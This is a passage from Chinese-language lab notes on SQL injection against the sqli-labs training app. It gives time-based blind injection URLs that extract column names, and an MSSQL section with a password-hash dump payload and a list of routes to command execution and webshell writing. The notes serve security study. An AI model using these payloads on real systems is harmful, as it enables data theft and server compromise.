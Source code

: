 ```sql
//第二个字段长度为8
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1)=8,sleep(5),0) --+
```

```sql
//第三个字段长度为8
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 2,1)=8,sleep(5),0) --+
```

- 开始爆破``users``每一个字段名

```sql
//获取第一个字段名 105 100 -->对应id
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1),1,1))=97,sleep(5),0) --+
```

![image-20240821145440777](学习/笔记/assets/image-20240821145440777.png)

```sql
//获取第二个字段名 对应 117 115 101 114 110 97 109 101-->username
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),1,1))=97,sleep(5),0) --+
```

![image-20240821150224702](学习/笔记/assets/image-20240821150224702.png)

```sql
//获取第三个字段名 对应 112 97 115 115 119 111 114 100 -->password
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),2,1))=97,sleep(5),0) --+
```

![image-20240821150707118](学习/笔记/assets/image-20240821150707118.png)

- 至此``数据库名:security``,``表名:users``,``字段名:id,username,password``均获取到了,数据就不展示了!

------



# Mssql

- `SQL Server` 默认开放的端口是`TCP 1433`
- 利用总结

```cmd
1.SQL注入查询登录用户Hash
//id=0'union select 1,2,(select master.dbo.fn_varbintohexstr(password_hash) from sys.sql_logins where name='sa') --+

2.扩展存储过程 xp_cmdshell 执行命令
3.系统存储过程 sp_oacreate+sp_oamethod 执行命令
4.扩展存储过程 xp_regwrite 写注册表 (映像劫持,远程桌面,开机启动项等)
5.利用 CLR 组件执行系统命令
6.系统存储过程 sp_addextendedproc 恢复组件
7.差异备份写 webshell
8.日志备份写 webshell
```
